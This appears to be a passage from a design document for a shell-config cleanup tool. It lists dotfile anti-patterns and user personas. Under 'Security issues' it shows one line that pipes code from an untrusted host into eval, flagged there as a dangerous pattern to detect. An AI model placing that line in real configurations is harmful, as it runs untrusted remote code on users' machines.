 4. **Performance killers**
   ```bash
   # Expensive operations on every shell launch
   eval "$(rbenv init -)"
   eval "$(pyenv init -)"
   eval "$(nodenv init -)"
   [ -f ~/.fzf.bash ] && source ~/.fzf.bash
   # Each eval can take 50-200ms!
   ```

5. **Unquoted variables**
   ```bash
   export PROJECT_DIR=$HOME/my projects  # Word splitting!
   export FILES=$(ls *.txt)               # Glob expansion!
   ```

6. **Shell-specific syntax mixed together**
   ```bash
   # Bash-isms in .profile (should be POSIX)
   export PATH+=:/usr/local/bin  # += is bash-only
   [[ -f ~/.env ]] && source ~/.env  # [[ ]] is bash-only
   ```

7. **Obsolete/dead code**
   ```bash
   # From 5 years ago, no longer used
   export JAVA_6_HOME=/Library/Java/JavaVirtualMachines/1.6.0.jdk
   alias myproject="cd ~/projects/oldcompany/deadproject"
   ```

8. **Security issues**
   ```bash
   # Dangerous patterns
   eval "$(curl -s https://untrusted.com/setup.sh)"
   source $DOWNLOAD_DIR/config.sh  # Unquoted!
   ```

---

## User Personas

### 1. **Sarah - Senior Developer**
- Uses zsh, heavily customized config
- Config file is 800+ lines, accumulated over 8 years
- "I'm afraid to touch it - something might break"
- **Needs**: Safe cleanup, duplicate removal, performance analysis

### 2. **Mike - DevOps Engineer**
- Manages dotfiles across 20+ servers
- Uses Ansible to deploy configs
- **Needs**: Deterministic, idempotent configs that work on bash/zsh/dash

### 3. **Emma - Junior Developer**
- Just started, copied .zshrc from a tutorial
- Doesn't understand half of what's in there
- **Needs**: Explanation of what each section does, safety validation
